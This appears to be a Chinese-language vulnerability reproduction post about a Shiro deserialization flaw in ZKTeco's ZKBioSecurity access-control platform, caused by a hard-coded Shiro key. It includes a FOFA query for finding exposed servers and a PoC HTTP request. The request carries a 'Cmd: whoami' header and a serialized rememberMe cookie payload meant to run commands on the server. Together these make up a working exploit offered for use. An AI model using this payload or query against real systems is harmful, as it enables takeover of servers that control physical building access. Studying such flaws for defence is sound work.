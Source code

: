 
# Zkteco 百傲瑞达安防管理系统平台 Shiro 反序列化漏洞复现

### 0x01 产品简介

  百傲瑞达是基于[生物识别](https://so.csdn.net/so/search?q=%E7%94%9F%E7%89%A9%E8%AF%86%E5%88%AB&spm=1001.2101.3001.7020)技术打造的一站式安防软件服务平台，平台涵盖人事管理、门禁管理、梯控管理、访客管理、视频联动、系统设置等模块，门禁配合通道管理设备可实现对出入口进行控制，可以深度应用于政府、企业、监狱、学校、智慧社区等多个安防需求领域

### 0x02 漏洞概述

 Zkteco 百傲瑞达安防管理系统平台存在 shiro 反序列化漏洞，该漏洞源于软件存在硬编码的 shiro-key，攻击者可利用该 key 生成恶意的序列化数据，在服务器上执行任意代码，执行系统命令、或打入内存马等，获取服务器权限。

### 0x03 复现环境

FOFA：title=="ZKBioSecurity" && body="Automatic login within two weeks"  

![](assets/1701669921-55dbd49b52bfd52c5a81242678cf56d8.png)

### 0x04 漏洞复现

PoC

```http
GET / HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Cmd: whoami
Cookie: rememberMe=kPH+bIxk5D2deZiIxcaaaExg7EWKTeFZkFrgR4FfAGBNnoSgHEfKEsBMQECJwt+ceZp4VwLFx5XJDaWao1Fbavx7SZ+t7zGnhcx3V90PiU6V/R+669FmF/RmR
```

